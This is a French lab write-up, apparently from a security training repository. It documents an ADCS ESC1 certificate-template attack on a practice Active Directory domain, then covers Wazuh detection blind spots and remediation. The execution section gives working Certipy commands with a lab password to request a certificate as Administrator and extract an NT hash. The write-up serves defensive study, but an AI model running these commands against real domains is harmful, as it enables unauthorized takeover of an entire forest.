


# ⚔️ Attaque 08 — ADCS ESC1 (Certificat de complaisance)

| | |
|---|---|
| **Catégorie** | Privilege Escalation |
| **MITRE ATT&CK** | [T1649](https://attack.mitre.org/techniques/T1649/) |
| **Fiche théorique** | [`../../docs/04-privilege-escalation/`](../../docs/) |
| **Cible** | `sevenkingdoms.local` — CA **SEVENKINGDOMS-CA** (kingslanding · 192.168.56.10) |
| **Compte attaquant** | `tywin.lannister` (**simple Domain User**) |
| **Outil** | `Certipy` (find / req / auth) |
| **Statut détection Wazuh** | 🔴 Angle mort **critique** (audit ADCS + Kerberos désactivés) |

---

## 1. 🧠 Description
**ADCS** (Active Directory Certificate Services) est l'**autorité de certification** interne de l'entreprise. Dans AD, un **certificat peut servir à s'authentifier** (mécanisme **PKINIT**) : détenir un certificat au nom de quelqu'un = **pouvoir devenir cette personne**.

Un certificat est émis selon un **modèle** (template). Le modèle est **vulnérable ESC1** quand il cumule :
1. **Enrollee Supplies Subject = True** → *c'est le demandeur qui choisit le nom* 🚨
2. **Client Authentication = True** → le certificat sert à s'authentifier
3. **Enrollment Rights larges** (Domain Users) → n'importe qui peut en demander un

**Le combo mortel :** avec un compte lambda, je demande un certificat en disant *« émets-le au nom de `Administrator` »*, la CA accepte, et je m'authentifie **en tant qu'Administrator**.

## 2. 🎯 Prérequis
- Un **simple compte de domaine** avec droit d'enrôlement (ici `tywin.lannister`, Domain User).
- Une CA exposant un modèle **vulnérable ESC1**.

## 3. 💻 Exécution

### a) Trouver les modèles vulnérables
```bash
certipy find -u tywin.lannister@sevenkingdoms.local -p powerkingftw135 -dc-ip 192.168.56.10 -vulnerable -stdout
```
→ révèle le modèle **`ESC1`** sur **`SEVENKINGDOMS-CA`** : `Enrollee Supplies Subject = True`, `Client Authentication = True`, `Requires Manager Approval = False`, enrôlable par `Domain Users`.


### b) Demander un certificat au nom d'`Administrator`
```bash
certipy req -u tywin.lannister@sevenkingdoms.local -p powerkingftw135 -dc-ip 192.168.56.10 \
  -ca SEVENKINGDOMS-CA -template ESC1 -upn administrator@sevenkingdoms.local
```
→ la CA émet le certificat et Certipy le sauvegarde dans **`administrator.pfx`**.



### c) S'authentifier avec le certificat (PKINIT)
```bash
certipy auth -pfx administrator.pfx -dc-ip 192.168.56.10
```
→ le DC valide le certificat, délivre un **TGT** et Certipy récupère le **hash NT** de l'Administrator.


## 4. 📤 Résultat
Depuis un **simple Domain User**, on obtient le **TGT + le hash NT** de `Administrator@sevenkingdoms.local` (`...:c66d72021a2d4744409969a581a1705e`) — soit l'**Administrator du domaine racine = Enterprise Admin sur toute la forêt** 👑. **Aucun mot de passe cracké**, juste une CA mal configurée. Ce hash ouvre ensuite DCSync, Pass-the-Hash, etc.

## 5. 🛡️ Détection dans Wazuh — 🔴 angle mort critique

| Recherche (DQL) | Résultat | Lecture |
|---|---|---|
| `data.win.system.eventID:4886 or ...:4887` | **0 hit** | audit **ADCS non activé** → demande/émission de certificat invisible |
| `data.win.system.eventID:4768` | **0 hit** | audit **Kerberos désactivé** → l'auth PKINIT ne laisse aucune trace |
| `agent.name:DC01` (la CA) | **114 hits** | la CA remonte des logs, mais **que du bruit** (4624/4634), rien sur l'attaque |

**Event(s) Windows concerné(s) :** `4886` (demande de certif) / `4887` (émission) / `4768` (TGT PKINIT) — **tous absents**.

**a) `4886 or 4887` (demande/émission de certificat) → 0 hit** : l'audit ADCS n'est pas activé, la demande frauduleuse est invisible.


**b) `4768` (auth Kerberos PKINIT) → 0 hit** : l'audit Kerberos est désactivé, l'authentification par certificat ne laisse aucune trace.


**c) `agent.name:DC01` (la CA) → 114 hits** : kingslanding remonte bien des logs, mais **que du bruit** (4624/4634 normaux) — rien sur l'attaque.



## 6. 🎓 Analyse & leçon
> **L'attaque la plus puissante est la plus silencieuse.** La forêt entière est compromise (Domain User → Enterprise Admin), et le SIEM par défaut n'affiche **rien** : ni la demande de certificat frauduleuse (4886/4887 non audités), ni l'authentification par certificat (4768 non audité). C'est **encore plus grave que DCSync** — aucune trace exploitable.

👉 Démonstration imparable que **le SIEM par défaut est aveugle aux attaques AD avancées**. Il faut **activer l'audit ADCS** sur la CA + l'**audit Kerberos** (Phase 5), puis corréler les demandes de certificats anormales (Phase 6).

## 7. 🔧 Remédiation
- **Corriger le modèle** : désactiver *Enrollee Supplies Subject*, ou exiger *Manager Approval*, ou restreindre les droits d'enrôlement.
- **Activer l'audit ADCS** sur la CA (events **4886/4887**) et l'**audit Kerberos** (**4768** avec info certificat).
- Surveiller les certificats dont le **SAN/UPN ≠ demandeur** (indice direct d'ESC1).
- Appliquer le durcissement Microsoft (KB5014754 : mapping fort certificat↔compte).

---

⬅️ Retour à l'[index des attaques](../03-attaques.md)
